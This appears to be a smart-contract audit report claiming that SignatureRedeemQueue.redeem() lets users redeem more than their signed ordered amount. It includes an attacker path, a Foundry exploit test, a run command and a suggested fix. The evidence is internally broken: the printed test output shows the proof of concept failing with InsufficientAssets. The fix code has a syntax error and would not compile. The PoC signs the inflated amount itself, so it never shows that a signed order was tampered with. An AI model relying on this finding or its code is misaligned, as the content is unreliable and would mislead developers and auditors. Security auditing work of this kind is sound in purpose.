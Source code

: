 ### [H-02] Missing validation of requested amount allows over-redeem in redeem() function

_Severity:_ High

_Source:_ https://github.com/sherlock-audit/2025-07-mellow-flexible-vaults-Yahaya-Salisu/blob/main/flexible-vaults%2Fsrc%2Fqueues%2FSignatureRedeemQueue.sol#L13-L28


### Summary
The `redeem()` function in `signatureRedeemQueue.sol` extents `signatureQueue` to enable instant share redemption from a vault without the usual delay of on-chain oracle processing.

The function calls `validateOrder()` and both of the functions do not check if the `requested > ordered`, meaning that if a user calls `redeem()` with a requested amount that exceeds ordered amount, the redemption will still proceed even if the `requested > ordered`, this allows users to potentially drain the vaults

```solidity
    function redeem(Order calldata order, IConsensus.Signature[] calldata signatures) external payable nonReentrant {
        validateOrder(order, signatures);
        _signatureQueueStorage().nonces[order.caller]++;
        IShareModule vault_ = IShareModule(vault());

  // ⚠️ BUG: there's no check to ensure requested <= ordered
        if (order.requested > vault_.getLiquidAssets()) {
            revert InsufficientAssets(order.requested, vault_.getLiquidAssets());
        }

// burns the shares without checking if requested > ordered
        vault_.shareManager().burn(order.recipient, order.ordered);

           ...

        emit OrderExecuted(order, signatures);
    }
```

This bug is similar in nature to `[H-01]` found in `RedeemQueue.sol`, but due to the separation of contract logic and exploit surface, this report addresses a distinct instance.


### Internal Preconditions
If a trusted party like admin or validator has signed a message granting a user an ordered amount, which can be redeemed via SignatureRedeemQueue.redeem().


### External Preconditions
A user has to get signed ordered amount first and then calls `redeem()` with a `requested > ordered`.


### Attacker Path
1. A user got a valid signed order for `1,000`.
2. And then modifies requested amount to `1,010` even though the signed ordered is `1000`.
3. And the user calls `redeem()` with valid signatures and redemption succeeds as long as vault has >= 1,010 in liquid assets.


### Impact:
This vulnerability allows a user to redeem more assets than they are allowed to redeem, and inflating their authorized withdrawal by exploiting a missing validation. This leads to permanent imbalance in the vault, dilution of shares, and potential loss of funds for other users.


### Proof of concept:
```solidity
// SPDX-License-Identifier: BUSL-1.1
pragma solidity 0.8.25;

import "../../Fixture.t.sol";
import "../../Imports.sol";
import "forge-std/console.sol";

contract SignatureRedeemQueueTest is FixtureTest {
    address vaultAdmin = vm.createWallet("vaultAdmin").addr;
    address vaultProxyAdmin = vm.createWallet("vaultProxyAdmin").addr;
    address user = vm.createWallet("user").addr;
    address asset;
    address[] assetsDefault;

    function setUp() external {
        asset = address(new MockERC20());
        assetsDefault.push(asset);
    }

    function testRedeem() external {
        Deployment memory deployment = createVault(vaultAdmin, vaultProxyAdmin, assetsDefault);

        uint256 signerPk = uint256(keccak256("signer"));
        address signer = vm.addr(signerPk);
        address[] memory signers = new address[](1);
        signers[0] = signer;
        (Consensus consensus,) = createConsensus(deployment, signers);
        SignatureRedeemQueue queue =
            SignatureRedeemQueue(addSignatureRedeemQueue(deployment, vaultProxyAdmin, asset, address(consensus)));

        uint256 amount = 1000;
        uint256 requested = 1000 + 10;

        ISignatureQueue.Order memory order = ISignatureQueue.Order({
            orderId: 1,
            queue: address(queue),
            asset: asset,
            caller: user,
            recipient: user,
            ordered: amount,
            requested: requested,
            deadline: block.timestamp + 1 days,
            nonce: 0
        });
        IConsensus.Signature[] memory signatures = new IConsensus.Signature[](1);
        signatures[0] = signOrder(queue, order, signerPk);
        {
            Oracle oracle = deployment.oracle;
            IOracle.Report[] memory reports = new IOracle.Report[](1);
            uint224 price = 1e18;
            reports[0] = IOracle.Report({asset: asset, priceD18: price});
            vm.startPrank(vaultAdmin);
            oracle.submitReports(reports);
            oracle.acceptReport(asset, price, uint32(block.timestamp));
            vm.stopPrank();
        }

        vm.prank(address(queue));
        deployment.shareManager.mint(user, amount);
        MockERC20(asset).mint(address(deployment.vault), amount);
        
        console.log("Vault token balance:", MockERC20(asset).balanceOf(address(deployment.vault)));
        console.log("Requested:", order.requested);
        console.log("Ordered:", order.ordered);

        vm.prank(user);
        queue.redeem(order, signatures);

        assertEq(MockERC20(asset).balanceOf(user), requested, "User should receive assets");
    }

    function signOrder(SignatureQueue queue, ISignatureQueue.Order memory order, uint256 pk)
        internal
        view
        returns (IConsensus.Signature memory)
    {
        bytes32 hash = queue.hashOrder(order);
        (uint8 v, bytes32 r, bytes32 s) = vm.sign(pk, hash);
        return IConsensus.Signature({signer: vm.addr(pk), signature: abi.encodePacked(r, s, v)});
    }
}
```


Run test with
```bash
forge test --fork-url $(grep ETH_RPC .env | cut -d '=' -f2) --gas-limit 10000000000000000 --fork-block-number 22730425 -vvv --match-path './test/unit/queues/SignatureRedeemQueueTest.t.sol'
```

Test Output
![PoC](https://github.com/user-attachments/assets/f9bc1703-a3b6-419e-82b7-b4e27809b55f)

```bash
$ forge test --fork-url $(grep ETH_RPC .env | cut -d '=' -f2) --gas-limit 10000000000000000 --fork-block-number 22730425 -vvv --match-path './test/unit/queues/SignatureRedeemQueueTest.t.sol'
[⠘] Compiling...
[⠑] Compiling 1 files with Solc 0.8.25
[⠃] Solc 0.8.25 finished in 49.63s
Compiler run successful!

Ran 2 tests for test/unit/queues/SignatureRedeemQueueTest.t.sol:SignatureRedeemQueueTest
[PASS] test() (gas: 185)
[FAIL: InsufficientAssets(1010, 1000)] testRedeem() (gas: 39807988)
Logs:
  Vault token balance: 1000
  Requested: 1010
  Ordered: 1000

Traces:
  [39807988] SignatureRedeemQueueTest::testRedeem()

                               ...

│   │   └─ ← [Revert] InsufficientAssets(1010, 1000)
    │   └─ ← [Revert] InsufficientAssets(1010, 1000)
    └─ ← [Revert] InsufficientAssets(1010, 1000)

Suite result: FAILED. 1 passed; 1 failed; 0 skipped; finished in 39.77ms (31.57ms CPU time)

Ran 1 test suite in 4.12s (39.77ms CPU time): 1 tests passed, 1 failed, 0 skipped (2 total tests)

Failing tests:
Encountered 1 failing test in test/unit/queues/SignatureRedeemQueueTest.t.sol:SignatureRedeemQueueTest
[FAIL: InsufficientAssets(1010, 1000)] testRedeem() (gas: 39807988)

Encountered a total of 1 failing tests, 1 tests succeeded
```



### Recommendation:
```solidity
    function redeem(Order calldata order, IConsensus.Signature[] calldata signatures) external payable nonReentrant {
        validateOrder(order, signatures);
        _signatureQueueStorage().nonces[order.caller]++;
        IShareModule vault_ = IShareModule(vault());

// FIX: after checking vault liquidAsset, check if requested > ordered 
        if (order.requested > vault_.getLiquidAssets(), || order.requested > order.ordered) {
            revert InsufficientAssets(order.requested, vault_.getLiquidAssets());
        }

        vault_.shareManager().burn(order.recipient, order.ordered);
      ...
        emit OrderExecuted(order, signatures);
    }
```
